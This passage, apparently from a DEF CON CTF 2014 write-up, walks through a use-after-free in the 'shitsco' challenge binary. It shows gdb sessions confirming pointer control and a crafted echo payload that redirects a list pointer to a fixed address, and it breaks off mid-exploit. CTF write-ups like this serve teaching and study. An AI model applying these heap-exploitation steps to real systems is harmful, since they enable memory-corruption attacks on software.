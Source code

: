 ```
$ show
c: AAAAAAAAAAAAAAAA
Segmentation fault
```

Beautiful! We added 'aaaaaaaaaaaaaaaa' and 'bbbbbbbbbbbbbbbb', then freed them both (as I mentioned earlier, we have to empty out the list). Then we add 'c' with the value of 'AAAAAAAAAAAAAAAA', which should take over the list entry for 'a'. We, therefore, expect that the name, the value, the previous, and the next pointers all point to 0x41414141, so it's crashing when trying to dereference one of them.

And sure enough, we can verify with a debugger (I used a string with four different values so we can see what's happening):

```

$ gdb -q ./shitsco
Reading symbols from /home/ron/defcon-ctf-2014/shitsco/shitsco...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/ron/defcon-ctf-2014/shitsco/./shitsco

 oooooooo8 oooo        o88    o8
888         888ooooo   oooo o888oo  oooooooo8    ooooooo     ooooooo
 888oooooo  888   888   888  888   888ooooooo  888     888 888     888
        888 888   888   888  888           888 888         888     888
o88oooo888 o888o o888o o888o  888o 88oooooo88    88ooo888    88ooo88

Welcome to Shitsco Internet Operating System (IOS)
For a command list, enter ?
$ set a aaaaaaaaaaaaaaaa
$ set b bbbbbbbbbbbbbbbb
$ set a
$ set b
$ set c AAAABBBBCCCCDDDD
$ show
c: AAAABBBBCCCCDDDD

Program received signal SIGSEGV, Segmentation fault.
<span class="Constant">0x08048e98</span> in ?? ()
(gdb) x/i <span class="Identifier">$eip</span>
=> <span class="Constant">0x8048e98</span>:   mov    eax,DWORD PTR [ebx]
(gdb) <span class="Constant">print</span>/x <span class="Identifier">$ebx</span>
$1 = <span class="Constant">0x43434343</span>
```

Excellent! It's crashing when reading the 'next' pointer! That means we need to construct an appropriate struct in memory that we can point to. Or... we can just use the 'head' entry, which happens to be at 0x0804C36C. This will cause an infinite loop, but I'm okay with that.

I'm sick of typing manually, plus we want to start using some non-ascii characters, so let's do it all on the commandline:

```

$ echo -ne <span class="Constant">'set a aaaaaaaaaaaaaaaa\nset b bbbbbbbbbbbbbbbb\nset a\nset b\nset c AAAABBBB\x6c\xc3\x04\x08DDDD\nshow\n'</span> | ./shitsco

 oooooooo8 oooo        o88    o8
888         888ooooo   oooo o888oo  oooooooo8    ooooooo     ooooooo
 888oooooo  888   888   888  888   888ooooooo  888     888 888     888
        888 888   888   888  888           888 888         888     888
o88oooo888 o888o o888o o888o  888o 88oooooo88    88ooo888    88ooo88

Welcome to Shitsco Internet Operating System (IOS)
For a command list, enter ?
```
